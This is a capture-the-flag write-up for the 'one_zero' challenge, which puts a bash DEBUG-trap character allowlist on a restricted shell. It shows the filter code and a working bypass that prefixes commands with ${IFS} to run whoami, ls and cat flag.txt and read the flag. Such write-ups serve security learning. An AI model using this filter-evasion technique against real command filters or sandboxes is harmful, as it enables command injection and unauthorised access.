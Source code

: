 >Author: @JohnHammond#6971  
>  
>You only get one zero. ;)
------------------------------
#### _NOTE_, *This solution utilizes an unintended interaction*.

We are given a file to see the restrictions placed. Once we are ready to give it a try, we ssh to their designated port.

```bash
shopt -s extdebug
function one_zero() {
    if [[ "$BASH_COMMAND" =~ ^[\$\&+:\;=\?@\#|\<\>.\^\*()\%\!0-]+ ]]; then
        num_zero=$(awk '{print gsub(/0/, "")}' <<< "$BASH_COMMAND")
        if [[ $num_zero -le 1 ]]; then
            return; 
        else
            echo "You are only allowed one zero. :)"
            return 1;
        fi
    fi
    echo "Sorry, you used a character that is not in the allowlist!"
    return 1;
}

trap 'one_zero' DEBUG
```

We can see there is a very strict character on the allowlist, but also that more than 1 zero and we trip the 2nd if statement, telling us only 1 zero allowed.

Jumping right in I learned that we can still pass env variables:
```bash
user@one_zero:~$ $TERM
bash: xterm-256color: command not found
user@one_zero:~$ $HOME
bash: /home/user: Is a directory
```
In these cases, I don't even need my precious zero! But what to do with them? The answer is not so clear.
Next I found that I can append letter characters after a zero, and I still bypass the allowlist:
```bash
user@one_zero:~$ 0whoami
bash: 0whoami: command not found
```
So far nothing is workable. After attempting some other additional operators:
```bash
user@one_zero:~$ 0||whoami
bash: 0: command not found
Sorry, you used a character that is not in the allowlist!
```

My operators are not exactly blacklisted, but being 2 separate commands still goes through the allowlist check, which my whoami inevitably fails.

I know the bash special variable `$IFS` is known to be rather effective at bypassing some tricky filter settings, so I decided to try it out here and see what happens:

```bash
user@one_zero:~$ ${IFS}whoami
user
user@one_zero:~$ ${IFS}ls
flag.txt
```

In an unexpected twist, it appears using $IFS at the start of the command results in any subsequent input bypassing the filter!
From here it's a simple `cat` away:

```bash
user@one_zero:~$ ${IFS}cat flag.txt
flag{81b9de37f5bd218c9f59ac2d9d709bf6}
```
